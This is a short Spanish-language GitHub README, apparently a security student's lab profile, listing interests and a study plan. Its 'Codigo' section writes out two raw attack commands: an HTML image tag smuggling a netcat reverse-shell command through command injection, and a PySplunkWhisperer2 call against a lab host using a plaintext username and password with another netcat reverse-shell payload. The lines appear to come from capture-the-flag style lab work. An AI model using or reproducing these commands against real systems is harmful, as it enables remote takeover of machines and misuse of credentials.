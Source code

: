 # CVDSLAB1
## Nombre
**Cristian Camilo Pineros Arevalo.**
## Informacion Basica
_Estudiante de ingenieria de sistemas con enfasis en seguridad._
## Perfil
![images](perfil.jpg)

Ingeniero de Sistemas con interés en el área de seguridad informática y redes.
Conocimientos en

ethical hacking\
ciberseguridad\
desarrollo de software\
Con experiencia en el uso de herramientas como Java, Python, SQL, Github,
Kali Linux, Parrot.
## Plan de estudio
- CVDS
- MCSW-M1

## Codigo
~~~
<img src=http://10.10.16.110/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.110'$IFS'1234')>



python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.16.110  --username shaun --password Guitar123 --payload 'nc.traditional -e/bin/sh '10.10.16.110' '4444''
~~~
